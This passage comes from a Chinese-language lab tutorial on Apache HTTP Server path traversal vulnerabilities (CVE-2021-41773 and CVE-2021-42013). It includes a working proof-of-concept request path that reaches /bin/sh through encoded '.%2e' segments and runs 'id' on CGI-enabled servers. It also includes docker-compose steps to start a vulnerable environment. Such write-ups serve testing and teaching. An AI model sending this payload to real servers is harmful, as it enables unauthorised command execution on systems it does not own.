 #### 1.4.3.3.**执行任意命令**

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令。

```
POC：/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh  最下面添加echo;id
```

![img](assets/wps15.jpg) 

## 1.5.**Apache HTTP 路径穿越漏洞（CVE-2021-42013）**

### 1.5.1.**漏洞介绍**

Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞CVE-2021-41773进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

### 1.5.2.**漏洞环境**

#### 1.5.2.1.**运行漏洞环境**

```
docker-compose build

docker-compose up -d
```

![img](assets/wps16.jpg) 

